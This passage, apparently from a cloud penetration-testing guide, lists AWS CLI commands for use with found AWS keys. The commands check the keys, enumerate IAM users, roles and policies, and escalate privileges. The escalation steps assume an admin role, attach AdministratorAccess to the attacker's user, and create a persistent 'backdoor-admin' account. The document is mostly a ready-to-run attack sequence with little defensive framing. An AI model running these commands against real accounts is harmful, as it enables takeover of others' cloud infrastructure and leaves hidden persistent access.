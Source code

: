 🔹 2.1 Identify AWS Users and Their Permissions

Assume you found valid AWS keys. The first step is to check what they can access.

🛠️ Commands to Validate AWS Credentials:

(1) Check If AWS Keys Work
```
aws sts get-caller-identity
```
(2) List Users & Roles
```
aws iam list-users
aws iam list-roles
aws iam get-user
```
(3) Enumerate Policies (Check What You Can Access)
```
aws iam list-attached-user-policies --user-name <target-user>
aws iam list-policies --query "Policies[*].PolicyName"
```
(4) Look for Privilege Escalation Paths
```
aws iam list-roles --query 'Roles[*].[RoleName, AssumeRolePolicyDocument]'
aws iam get-role --role-name <target-role>
```
What this does:

Identifies who you are and what permissions you have.

Checks if you can assume higher privileges via sts:AssumeRole.



---

🔹 2.2 Look for Misconfigured IAM Permissions

If the IAM policies allow assume-role, you may be able to escalate privileges.

🛠️ Commands to Try Privilege Escalation:

(1) Check If You Can Assume a Higher Role
```
aws sts assume-role --role-arn arn:aws:iam::account-id:role/AdminRole --role-session-name pentest-session
```
(2) Attach Administrator Access to Yourself
```
aws iam attach-user-policy --user-name target-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
(3) Create a New User & Add Admin Permissions
```
aws iam create-user --user-name backdoor-admin
aws iam attach-user-policy --user-name backdoor-admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
What this does:

If the target IAM is misconfigured, you can escalate to full admin.

Look for AWS IAM roles that allow sts:AssumeRole.
